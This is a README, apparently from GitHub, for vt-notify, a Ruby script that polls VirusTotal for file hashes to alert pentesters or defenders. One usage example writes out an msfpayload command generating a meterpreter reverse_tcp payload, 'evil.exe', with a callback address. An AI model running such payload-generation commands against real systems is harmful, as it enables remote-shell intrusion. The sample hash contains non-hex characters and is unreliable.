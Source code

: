 
Virus Total Notifier
=========

This project was originally created to notify the user when Virus Total had a report for a specific binary (i.e. one used in a penetration test or otherwise) the penetration tester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected by the program; It does, however, continue to re-check hashes that haven't been detected.

This program can also be used as a detection mechanism. Target it towards your web-root or other sensitive directory and it will notify you when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything OS specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
    -e EMAIL // email address of who to notify upon detection, will only log to file if not specified
    -m SMTPSERVER // smtp server to relay email through
    -s FILENAME // file name of binary to keep track of
    -S SHA1 // single SHA1 to keep track of
    -f FILENAME // file containing sha1 hashes of files to keep track of
    -d DIRECTORY // directory of binaries keep track of
    -a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
    -l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
    -i INTERVAL // how often VT is checked, defaults to every 10 minutes
    -h // this help screen
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking every 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Then, acting as the incident responder, I upload the "found" malware to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       0

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       1
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)
